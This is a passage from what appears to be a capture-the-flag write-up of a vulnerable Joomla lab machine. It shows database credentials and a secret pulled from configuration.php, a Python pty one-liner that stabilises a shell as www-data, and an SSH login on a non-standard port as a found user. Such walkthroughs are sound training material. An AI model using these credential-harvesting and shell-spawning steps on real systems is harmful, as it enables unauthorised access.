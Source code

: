 ```console
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
```

Pull credentials from Joomla's `configuration.php`.

```php
public $dbtype = 'mysqli';
        public $host = '127.0.0.1';
        public $user = 'joomlauser';
        public $password = 'passwordz';
        public $db = 'joomladb';
        public $dbprefix = 'wyot4_';
        public $live_site = '';
        public $secret = '5O2SmJUZB24rhcfL';
        public $sendmail = '/usr/sbin/sendmail';


```

Got interactive terminal with:
```shell
$ echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py; python /tmp/asdf.py;

www-data@Vulnerable:/var/www/html/joomla$ 
```

After loitering around in the machine for a while, I chose to ssh into the machine as `basterd`, the earlier found user. Hopefully they have more permissions than `www-data`. We should remember to use the _higher port_ `55007` SSH we found in the [nmap scan](#nmap).

```console
ssh basterd@10.10.190.176 -p 55007
```

```console
kali@kali:~/Documents$ ssh basterd@10.10.190.176 -p 55007
The authenticity of host '[10.10.190.176]:55007 ([10.10.190.176]:55007)' can't be established.
ECDSA key fingerprint is SHA256:mvrEiZlb4jqadxXJccZYZkCL/DHElLVQ74eKaSKZiRk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.190.176]:55007' (ECDSA) to the list of known hosts.
basterd@10.10.190.176's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.


Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199
$ whoami
basterd
```
